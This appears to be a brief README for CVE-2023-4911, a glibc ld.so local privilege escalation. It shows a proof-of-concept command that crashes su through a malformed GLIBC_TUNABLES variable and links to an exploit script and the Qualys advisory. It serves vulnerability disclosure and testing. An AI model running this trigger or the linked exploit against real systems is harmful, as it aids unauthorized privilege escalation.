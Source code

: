 # CVE-2023-4911

Exploit with glibc version 2.34.

## Proof of concept

```bash
$ env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
Segmentation fault (core dumped)
```


Exploit : https://haxx.in/files/gnu-acme.py

Detials: https://www.qualys.com/2023/10/03/cve-2023-4911/looney-tunables-local-privilege-escalation-glibc-ld-so.txt
